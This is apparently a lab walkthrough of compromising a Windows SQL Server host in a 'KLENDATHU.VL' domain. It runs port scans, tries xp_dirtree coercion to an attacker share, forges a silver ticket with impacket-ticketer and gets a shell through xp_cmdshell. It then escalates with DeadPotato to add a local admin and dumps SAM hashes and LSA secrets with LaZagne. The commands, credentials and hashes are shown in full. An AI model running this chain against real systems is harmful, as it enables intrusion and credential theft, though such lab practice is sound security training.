



As usual I will start by checking the first 1000 UDP services:

```bash
└─$ nmap -F -sU 10.13.38.36 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-16 09:49 +0100
Stats: 0:00:31 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 30.56% done; ETC: 09:51 (0:01:10 remaining)
Nmap scan report for 10.13.38.36
Host is up (0.038s latency).
Not shown: 94 closed udp ports (port-unreach)
PORT     STATE         SERVICE
123/udp  open|filtered ntp
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
500/udp  open|filtered isakmp
4500/udp open|filtered nat-t-ike
5353/udp open|filtered zeroconf

Nmap done: 1 IP address (1 host up) scanned in 161.53 seconds

```

And all the TCP services as well:

```bash
PORT      STATE SERVICE       REASON          VERSION
1/tcp     open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2022 16.00.1000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-16T03:35:25
| Not valid after:  2056-03-16T03:35:25
| MD5:     f1b3 6c88 1af4 fd0c dc14 bae3 efcd 143d
| SHA-1:   135e 6e65 da2a 5fdf d02a 36a2 f590 c0f3 77ce 4314
| SHA-256: 986b 585b 1d59 a317 51bb 9948 97d7 32aa 411f b850 eadf 73db c91f d67c aace 2540
| -----BEGIN CERTIFICATE-----
| MIIEADCCAmigAwIBAgIQRBz8soy0HLlIO35FOV4hfjANBgkqhkiG9w0BAQsFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjYwMzE2MDMzNTI1WhgPMjA1NjAzMTYwMzM1MjVaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCAaIwDQYJKoZIhvcNAQEBBQADggGPADCCAYoCggGBALgSc1S5
| LtV+s3Kcxor/ANg+YkYl/RJdNLLkUhSY1+SkOEtSFc3E9u8DzkbjTESG6B4IiEk8
| 3OtTDrQv5Mao1jyk6CMLcSKF7U7fn2321zbh+0wYhBw23pI25jLU3iXzykAhlN8G
| 4u+289OUa+G/AKUKk/AONXpob1WoLi2xUUt7gwULIY1Nfq16yGQ97WcLiBjX7BPl
| yHU8sK7HQ0XNCs3MP0xGG+Xv3vNUfLFN4xCWyeuRK8aYgmYpA2z1JiKjF3AwwOQ7
| cDv0mZfWZsg5q+vP4DWv9y+hwOO6slE9VRUmHB0VfkCk3hAIDnwBP2XyLXsAbi77
| JJfvsPoLJ7baaTjgFosIp86PpoHBvTAKB/j+ugUsF5tLCN4ilEGznY+EvVWkNH5U
| X8GWwzCbqSQqdO7EutWKsoye86uQu4KDJNgJTh0z8sDx6grzBv7MNCVVlgkifOQe
| ISLC4cRjqLsx+5Ei0HN3S8zfNHuxDE267GuFG/8z5H7v7aIavCz8WU5L/QIDAQAB
| MA0GCSqGSIb3DQEBCwUAA4IBgQA8u+H1oCx308/6h89Me6lN2WaEev/ozhysDqf6
| 1tjtpD/deIAkErR8MBu3gLsf3xCnJzGfPH7GybE4SC/ISs5BGdjlh/mV8CuxFNSZ
| xTyd4c+n2YKuX9xBfpVYf3AemmOOSZQ7eL/22rFAPlySTa9hap2IWztkqsFafOyE
| D0YwyZyGl5ZyaHyup1CvZL32o6TkEDn4w6SFiG/vdj+4coQ3hXIiomjhY/UeAcjC
| j5Dd69Nt+eCl7wY16JO2E8ViOPbo0YhFSqaPO0/VMNdP41/KEntXfUc/YtbVNxg2
| JjCrOdgCBG7z9iszprbWtxXHy7xn5sjlW0uPCfqyUZ3NURpugATBPwh0uPR5Q0Vw
| LcFZjKNiLMZXXdszQKPpIJ6IUbYxU1ZwlbWfv0MQjdCwYbwbCtEQv+/rgnLl4B2H
| 30ShgNsu37qXNfP6Omq4L0nSmjq9Lib/hyGVPgv9KlTI/xxqFVmGmLfx+htwJDLY
| IFxvmdNwL238hDhptVFJAxRiYV0=
|_-----END CERTIFICATE-----
| ms-sql-info: 
|   10.13.38.36:1: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1
|_ssl-date: 2026-03-16T08:57:33+00:00; +1s from scanner time.
| ms-sql-ntlm-info: 
|   10.13.38.36:1: 
|     Target_Name: KLENDATHU
|     NetBIOS_Domain_Name: KLENDATHU
|     NetBIOS_Computer_Name: SRV1
|     DNS_Domain_Name: KLENDATHU.VL
|     DNS_Computer_Name: SRV1.KLENDATHU.VL
|     DNS_Tree_Name: KLENDATHU.VL
|_    Product_Version: 10.0.20348
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
1433/tcp  open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2022 16.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   10.13.38.36:1433: 
|     Target_Name: KLENDATHU
|     NetBIOS_Domain_Name: KLENDATHU
|     NetBIOS_Computer_Name: SRV1
|     DNS_Domain_Name: KLENDATHU.VL
|     DNS_Computer_Name: SRV1.KLENDATHU.VL
|     DNS_Tree_Name: KLENDATHU.VL
|_    Product_Version: 10.0.20348
|_ssl-date: 2026-03-16T08:57:33+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-16T03:35:25
| Not valid after:  2056-03-16T03:35:25
| MD5:     f1b3 6c88 1af4 fd0c dc14 bae3 efcd 143d
| SHA-1:   135e 6e65 da2a 5fdf d02a 36a2 f590 c0f3 77ce 4314
| SHA-256: 986b 585b 1d59 a317 51bb 9948 97d7 32aa 411f b850 eadf 73db c91f d67c aace 2540
| -----BEGIN CERTIFICATE-----
| MIIEADCCAmigAwIBAgIQRBz8soy0HLlIO35FOV4hfjANBgkqhkiG9w0BAQsFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjYwMzE2MDMzNTI1WhgPMjA1NjAzMTYwMzM1MjVaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCAaIwDQYJKoZIhvcNAQEBBQADggGPADCCAYoCggGBALgSc1S5
| LtV+s3Kcxor/ANg+YkYl/RJdNLLkUhSY1+SkOEtSFc3E9u8DzkbjTESG6B4IiEk8
| 3OtTDrQv5Mao1jyk6CMLcSKF7U7fn2321zbh+0wYhBw23pI25jLU3iXzykAhlN8G
| 4u+289OUa+G/AKUKk/AONXpob1WoLi2xUUt7gwULIY1Nfq16yGQ97WcLiBjX7BPl
| yHU8sK7HQ0XNCs3MP0xGG+Xv3vNUfLFN4xCWyeuRK8aYgmYpA2z1JiKjF3AwwOQ7
| cDv0mZfWZsg5q+vP4DWv9y+hwOO6slE9VRUmHB0VfkCk3hAIDnwBP2XyLXsAbi77
| JJfvsPoLJ7baaTjgFosIp86PpoHBvTAKB/j+ugUsF5tLCN4ilEGznY+EvVWkNH5U
| X8GWwzCbqSQqdO7EutWKsoye86uQu4KDJNgJTh0z8sDx6grzBv7MNCVVlgkifOQe
| ISLC4cRjqLsx+5Ei0HN3S8zfNHuxDE267GuFG/8z5H7v7aIavCz8WU5L/QIDAQAB
| MA0GCSqGSIb3DQEBCwUAA4IBgQA8u+H1oCx308/6h89Me6lN2WaEev/ozhysDqf6
| 1tjtpD/deIAkErR8MBu3gLsf3xCnJzGfPH7GybE4SC/ISs5BGdjlh/mV8CuxFNSZ
| xTyd4c+n2YKuX9xBfpVYf3AemmOOSZQ7eL/22rFAPlySTa9hap2IWztkqsFafOyE
| D0YwyZyGl5ZyaHyup1CvZL32o6TkEDn4w6SFiG/vdj+4coQ3hXIiomjhY/UeAcjC
| j5Dd69Nt+eCl7wY16JO2E8ViOPbo0YhFSqaPO0/VMNdP41/KEntXfUc/YtbVNxg2
| JjCrOdgCBG7z9iszprbWtxXHy7xn5sjlW0uPCfqyUZ3NURpugATBPwh0uPR5Q0Vw
| LcFZjKNiLMZXXdszQKPpIJ6IUbYxU1ZwlbWfv0MQjdCwYbwbCtEQv+/rgnLl4B2H
| 30ShgNsu37qXNfP6Omq4L0nSmjq9Lib/hyGVPgv9KlTI/xxqFVmGmLfx+htwJDLY
| IFxvmdNwL238hDhptVFJAxRiYV0=
|_-----END CERTIFICATE-----
| ms-sql-info: 
|   10.13.38.36:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| ssl-cert: Subject: commonName=SRV1.KLENDATHU.VL
| Issuer: commonName=SRV1.KLENDATHU.VL
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-15T03:33:17
| Not valid after:  2026-09-14T03:33:17
| MD5:     675f d22a dc12 f524 9ace 51b5 399b a36c
| SHA-1:   dcbf bf9c fc48 67f6 1df9 3700 83a4 1ff0 b33f 4043
| SHA-256: 0f3c d0f7 0d7c f908 2f39 3bd1 0bce 445b 0532 7b8b 516e f9e8 8aef 9387 e911 11bb
| -----BEGIN CERTIFICATE-----
| MIIC5jCCAc6gAwIBAgIQIXwOdiq1JapF4ySITTcHGTANBgkqhkiG9w0BAQsFADAc
| MRowGAYDVQQDExFTUlYxLktMRU5EQVRIVS5WTDAeFw0yNjAzMTUwMzMzMTdaFw0y
| NjA5MTQwMzMzMTdaMBwxGjAYBgNVBAMTEVNSVjEuS0xFTkRBVEhVLlZMMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA6I6UMELblS3YhT9kPfcxbo1nOra/
| Ce9VOTG6YX/4DOVF2BRCxAlfOep/MTrjQ6mwAQvKxNyZMWcx/Iub9kCbekLA7UWW
| cd8Qatz2jadrWaQtb6NijiOC+b43eNbfTG9kxGy3hS5xJlOExJKozddfJ/j7lMFt
| JgQzBZfReWd/Fzq9dSJclPWrdy9R8Z7EobK3WTQzVH7Rkm5mid9UdITXp+kFZfDQ
| idz3r1ui6Rb5AsieTnhPANRpVmmWKxo/kNZdjXorRHxv7vXPgH88ojlYYSBgweql
| 9SiWnwLk3g6GeetxzbWhx6hAf9khH3PKEscEX8lMqp4fp1h+dMrp0p54SQIDAQAB
| oyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcN
| AQELBQADggEBABsbmSMjuHv6Ds3iSYVR2IfxwPVmmLvspdZGWLf+qQMXbM6tah3c
| LYG99b0W5okNXfrpJUaxszQ6ln7YMoL+XCXQkTh2c+T8B2g8rvZ52J+RCbwG7amv
| pskh0ISClajUo4nQTG+/BwSGGcR3yrtx4gFVJ0qrRObAEVJOsld/3wfGOoWe8hjy
| RUmDzVbgbq8ChsP7jFj/7KchwOoKMBMyStB2mE52GccTlHkdTQ1e8qjj/NU12b0t
| One38QRVkx+XOQr6EaWlfidlv0u+CFN4txKbPxrwqYuI+WrXN+gZSsMSXWS+0ogP
| R2iWdikQEVFdDNBSRGifsA5u45Yy1R5EXjg=
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: KLENDATHU
|   NetBIOS_Domain_Name: KLENDATHU
|   NetBIOS_Computer_Name: SRV1
|   DNS_Domain_Name: KLENDATHU.VL
|   DNS_Computer_Name: SRV1.KLENDATHU.VL
|   DNS_Tree_Name: KLENDATHU.VL
|   Product_Version: 10.0.20348
|_  System_Time: 2026-03-16T08:57:26+00:00
|_ssl-date: 2026-03-16T08:57:33+00:00; +1s from scanner time.
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2016 (96%), Microsoft Windows Server 2022 (95%), Microsoft Windows Server 2012 R2 (93%), Microsoft Windows Server 2019 (92%), Microsoft Windows 10 1703 or Windows 11 21H2 (91%), Microsoft Windows Server 2016 or Server 2019 (91%), Microsoft Windows Server 2012 (91%), Microsoft Windows 10 1703 (90%), Windows Server 2019 (90%), Microsoft Windows 10 1909 - 2004 (89%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=3/16%OT=1%CT=%CU=44587%PV=Y%DS=2%DC=T%G=N%TM=69B7C5FD%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=10D%TI=I%CI=I%II=I%SS=S%TS=A)
SEQ(SP=107%GCD=1%ISR=10A%TI=I%CI=I%II=I%SS=S%TS=A)
OPS(O1=M552NW8ST11%O2=M552NW8ST11%O3=M552NW8NNT11%O4=M552NW8ST11%O5=M552NW8ST11%O6=M552ST11)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFDC)
ECN(R=Y%DF=Y%T=80%W=FFFF%O=M552NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)
U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=80%CD=Z)

Uptime guess: 0.225 days (since Mon Mar 16 04:32:51 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-03-16T08:57:28
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 16829/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 53227/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 51998/udp): CLEAN (Timeout)
|   Check 4 (port 30953/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   23.72 ms 10.10.14.1
2   24.04 ms 10.13.38.36

```

# MSSQL

Now I was curious to see if that new user could do anything here on the MSSQL but seems that my user either has no permissions to see any data, nor can i perform a XP_Dirtree(unfortunately)...

```bash
└─$ impacket-mssqlclient KLENDATHU.VL/zim:'football22'@SRV1 -windows-auth -port 1
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SRV1\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(SRV1\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (KLENDATHU\ZIM  guest@master)> help

    lcd {path}                 - changes the current local directory to {path}
    exit                       - terminates the server process (and this session)
    enable_xp_cmdshell         - you know what it means
    disable_xp_cmdshell        - you know what it means
    enum_db                    - enum databases
    enum_links                 - enum linked servers
    enum_impersonate           - check logins that can be impersonated
    enum_logins                - enum login users
    enum_users                 - enum current db users
    enum_owner                 - enum db owner
    exec_as_user {user}        - impersonate with execute as user
    exec_as_login {login}      - impersonate with execute as login
    xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
    xp_dirtree {path}          - executes xp_dirtree on the path
    sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
    use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
    ! {cmd}                    - executes a local shell cmd
    upload {from} {to}         - uploads file {from} to the SQLServer host {to}
    download {from} {to}       - downloads file from the SQLServer host {from} to {to}
    show_query                 - show query
    mask_query                 - mask query
    
SQL (KLENDATHU\ZIM  guest@master)> enum_db
name     is_trustworthy_on   
------   -----------------   
master                   0   
tempdb                   0   
model                    0   
msdb                     1   
SQL (KLENDATHU\ZIM  guest@master)> enum_links
SRV_NAME          SRV_PROVIDERNAME   SRV_PRODUCT   SRV_DATASOURCE    SRV_PROVIDERSTRING   SRV_LOCATION   SRV_CAT   
---------------   ----------------   -----------   ---------------   ------------------   ------------   -------   
SRV1\SQLEXPRESS   SQLNCLI            SQL Server    SRV1\SQLEXPRESS   NULL                 NULL           NULL      
Linked Server   Local Login   Is Self Mapping   Remote Login   
-------------   -----------   ---------------   ------------   
SQL (KLENDATHU\ZIM  guest@master)> enum_impersonate
execute as   database   permission_name   state_desc   grantee   grantor   
----------   --------   ---------------   ----------   -------   -------   
SQL (KLENDATHU\ZIM  guest@master)> enum_users
UserName             RoleName   LoginName   DefDBName   DefSchemaName       UserID     SID   
------------------   --------   ---------   ---------   -------------   ----------   -----   
dbo                  db_owner   sa          master      dbo             b'1         '   b'01'   
guest                public     NULL        NULL        guest           b'2         '   b'00'   
INFORMATION_SCHEMA   public     NULL        NULL        NULL            b'3         '    NULL   
sys                  public     NULL        NULL        NULL            b'4         '    NULL   
SQL (KLENDATHU\ZIM  guest@master)> enum_users
UserName             RoleName   LoginName   DefDBName   DefSchemaName       UserID     SID   
------------------   --------   ---------   ---------   -------------   ----------   -----   
dbo                  db_owner   sa          master      dbo             b'1         '   b'01'   
guest                public     NULL        NULL        guest           b'2         '   b'00'   
INFORMATION_SCHEMA   public     NULL        NULL        NULL            b'3         '    NULL   
sys                  public     NULL        NULL        NULL            b'4         '    NULL   
SQL (KLENDATHU\ZIM  guest@master)> enum_owner
Database   Owner   
--------   -----   
master     sa      
tempdb     sa      
model      sa      
msdb       sa      
SQL (KLENDATHU\ZIM  guest@master)> xp_dirtree "\\10.10.14.105\figa"
ERROR(SRV1\SQLEXPRESS): Line 1: The EXECUTE permission was denied on the object 'xp_dirtree', database 'mssqlsystemresource', schema 'sys'.
SQL (KLENDATHU\ZIM  guest@master)> xp_dirtree \\10.10.14.105\figa
ERROR(SRV1\SQLEXPRESS): Line 1: The EXECUTE permission was denied on the object 'xp_dirtree', database 'mssqlsystemresource', schema 'sys'.
SQL (KLENDATHU\ZIM  guest@master)> exut
ERROR(SRV1\SQLEXPRESS): Line 1: Could not find stored procedure 'exut'.
SQL (KLENDATHU\ZIM  guest@master)> exit
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Klendathu]
└─$ impacket-mssqlclient KLENDATHU.VL/zim:'football22'@SRV1 -windows-auth        
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SRV1\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(SRV1\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (KLENDATHU\ZIM  guest@master)> xp_dirtree \\10.10.14.105\figa
ERROR(SRV1\SQLEXPRESS): Line 1: The EXECUTE permission was denied on the object 'xp_dirtree', database 'mssqlsystemresource', schema 'sys'.
SQL (KLENDATHU\ZIM  guest@master)> 

```

Now I know already that the MSSQL service is running on behalf of the **Rasczak** username and since I am also aware of the credentials I might be able  to pull out a Silver ticket for the MSSQL?

In the picture I am using the credentials for the user to craft a ticket for the Database;

```bash
└─$ pypykatz crypto nt 'starship99'                                                                                                     
e2f156a20fa3ac2b16768f8add53d72c
                                                                                                                                                               
└─$ impacket-ticketer -nthash e2f156a20fa3ac2b16768f8add53d72c -domain-sid S-1-5-21-641890747-1618203462-755025521 -domain KLENDATHU.VL -spn mssql/SRV1.KLENDATHU.VL Administrator
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for KLENDATHU.VL/Administrator
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Saving ticket in Administrator.ccache


```

And now I can login as an admin on the MSSQL and get a shell via XP_CMDSHELL



And get a shell now:



Now it is clear I need to obtain admin, and this can be done via impersonation tokens:

```bash
S C:\> cd Users
PS C:\Users> ls


    Directory: C:\Users


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----         4/10/2024   6:52 PM                Administrator                                                        
d-----         7/14/2025   3:59 AM                administrator.KLENDATHU                                              
d-r---         4/10/2024   6:52 PM                Public                                                               
d-----         4/10/2024  11:33 PM                RASCZAK                                                              


PS C:\Users> tree /f
Folder PATH listing
Volume serial number is A401-AF84
C:.
+---Administrator
+---administrator.KLENDATHU
+---Public
?   +---Documents
?   +---Downloads
?   +---Music
?   +---Pictures
?   +---Videos
+---RASCZAK
    +---Desktop
    +---Documents
    +---Downloads
    +---Favorites
    +---Links
    +---Music
    +---Pictures
    +---Saved Games
    +---Videos
PS C:\Users> 

```

For the sake of this exercise I am adding a temp user as local admin:

```bash
S C:\temp> ./DeadPotato-NET4.exe -newadmin yovecio:'Coglione1!'
      _.--,_
   .-'      '-.          _           _ 
  /            \        | \ _  _  _||_) _ _|_ _ _|_ _ 
 '          _.  '       |_/(/_(_|(_||  (_) |_(_| |_(_)
 \      """" /  ~(      Open Source @ github.com/lypd0
  '=,,_ =\__ `  &             -= Version: 1.2 =-
        ""  ""'; \\\ 


_,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,_

(*) Initiating procedure as NT AUTHORITY\NETWORK SERVICE
(+) Is impersonation possible in current context? YES
(+) Currently running as user: NT AUTHORITY\SYSTEM
(+) Elevated process started with PID 3772

-={          OUTPUT BELOW         }=-

The command completed successfully.

The command completed successfully.

PS C:\temp> 


```

Now, the UAC is blocking me so I will use Lazagne to obtain the local Admininstrative password hash from SAM hives:

```bash
PS C:\temp> ./DeadPotato-NET4.exe -exe LaZagne.exe
      _.--,_
   .-'      '-.          _           _ 
  /            \        | \ _  _  _||_) _ _|_ _ _|_ _ 
 '          _.  '       |_/(/_(_|(_||  (_) |_(_| |_(_)
 \      """" /  ~(      Open Source @ github.com/lypd0
  '=,,_ =\__ `  &             -= Version: 1.2 =-
        ""  ""'; \\\ 


_,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,_

(*) Initiating procedure as NT AUTHORITY\NETWORK SERVICE
(+) Is impersonation possible in current context? YES
(+) Currently running as user: NT AUTHORITY\SYSTEM
(+) Elevated process started with PID 956

-={          OUTPUT BELOW         }=-


|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

[+] System masterkey decrypted for 087e43e5-8e3c-47a6-8627-25f26478ac75
[+] System masterkey decrypted for ed5c8b93-0c48-4398-8828-06b7c624a887
[+] System masterkey decrypted for fe0b36f4-c825-4376-bf41-83e3d2f81a62

########## User: SYSTEM ##########

------------------- Hashdump passwords -----------------

Administrator:500:aad3b435b51404eeaad3b435b51404ee:24f8ce26bc2f4d3965ce806719bbbc2d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:529f3724af1e571f4efff4d4bc98566c:::
yovecio:1002:aad3b435b51404eeaad3b435b51404ee:71ddafa4193caa4376aae61bcfeaf9d5:::

------------------- Lsa_secrets passwords -----------------

$MACHINE.ACC
0000   F0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   84 B2 00 EC 06 FB 9D B0 92 3D 1D EA 33 34 68 4A    .........=..34hJ
0020   3F CE 80 2E B8 67 13 52 AA AF 2B E2 3B 06 79 5C    ?....g.R..+.;.y.
0030   C8 46 F6 AF A5 F5 C0 B0 6D 1D 0C 72 E5 A3 DD 04    .F......m..r....
0040   79 44 51 A1 7E DC 9F 37 94 B9 A6 79 36 FD E5 AC    yDQ.~..7...y6...
0050   57 CF 93 0F C3 F0 64 DF D7 0A 78 2F 2F F5 A0 46    W.....d...x//..F
